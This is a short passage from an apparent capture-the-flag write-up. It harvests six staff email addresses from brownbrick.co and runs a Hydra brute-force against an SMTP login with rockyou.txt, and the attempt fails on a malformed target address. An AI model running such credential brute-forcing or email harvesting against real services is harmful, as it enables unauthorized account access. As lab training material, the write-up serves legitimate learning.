 ## Email adresses Enumeration

Browsing the website brownbrick.co (only passive recon allowed on this domain), I discovered a list of email addresses belonging to the development team. The emails I collected were:

![1](/images/yougotmail/1.jpg)
```
oaurelius@brownbrick.co
tchikondi@brownbrick.co
wrohit@brownbrick.co
pcathrine@brownbrick.co
lhedvig@brownbrick.co
fstamatis@brownbrick.co
```

I saved these addresses into a file `emails.txt` to potentially use them later in password guessing attacks.

## Password Brute-Frocing with Hydra

To attempt initial access, I decided to brute force the SMTP login using the collected emails as usernames. My first approach used the popular `rockyou.txt` password list and Hydra for brute forcing. Unfortunately, this attempt failed, likely because the password was not in the default wordlist or account lockout protections were in place.

```
──(kali㉿kali)-[~/Desktop/You got mail]
└─$ hydra -L mails.txt -P /usr/share/wordlists/rockyou.txt 10.10217.207 smtp -s 587 -t 16
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-01 14:02:16
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 86066394 login tries (l:6/p:14344399), ~5379150 tries per task
[DATA] attacking smtp://10.10217.207:587/
[ERROR] could not resolve address: 10.10217.207
0 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-01 14:02:17
```